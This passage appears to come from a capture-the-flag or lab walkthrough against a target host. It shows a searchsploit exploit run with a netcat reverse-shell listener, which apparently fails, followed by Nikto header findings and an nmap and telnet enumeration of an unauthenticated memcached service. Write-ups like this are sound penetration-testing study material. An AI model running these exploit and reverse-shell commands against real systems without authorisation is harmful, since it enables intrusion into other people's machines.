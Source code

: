 ```bash
cd exploits/
searchsploit -m 43905
sudo nc -nvlp 5000
python 43905.py 192.168.186.59 5000 192.168.49.186 5000

# output
[-] Debug is not enabled
```

```bash
- Nikto v2.1.6/2.1.5
+ Target Host: 192.168.186.59
+ Target Port: 5000
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ OPTIONS Allowed HTTP Methods: HEAD, OPTIONS, GET 
```

### Memcached
TCP port 11211.
```bash
# Nmap 7.91 scan initiated Mon Aug 30 23:21:23 2021 as: nmap -p 11211 --script memcached-info -oN scans/shifty-nmap-scripts-memcached-info 192.168.186.59
Nmap scan report for 192.168.186.59
Host is up (0.10s latency).

PORT      STATE SERVICE
11211/tcp open  memcache
| memcached-info: 
|   Process ID: 524
|   Uptime: 16860 seconds
|   Server time: 2021-03-10T23:37:32
|   Architecture: 64 bit
|   Used CPU (user): 1.440000
|   Used CPU (system): 1.220000
|   Current connections: 1
|   Total connections: 2578
|   Maximum connections: 1024
|   TCP Port: 11211
|   UDP Port: 0
|_  Authentication: no

# Nmap done at Mon Aug 30 23:21:24 2021 -- 1 IP address (1 host up) scanned in 0.79 seconds
```

```bash
telnet 192.168.186.59 11211
```

```bash
stats slabs

# output
STAT 3:chunk_size 152
STAT 3:chunks_per_page 6898
STAT 3:total_pages 3
STAT 3:total_chunks 20694
STAT 3:used_chunks 18249
STAT 3:free_chunks 2445
STAT 3:free_chunks_end 0
STAT 3:mem_requested 2481864
STAT 3:get_hits 15
```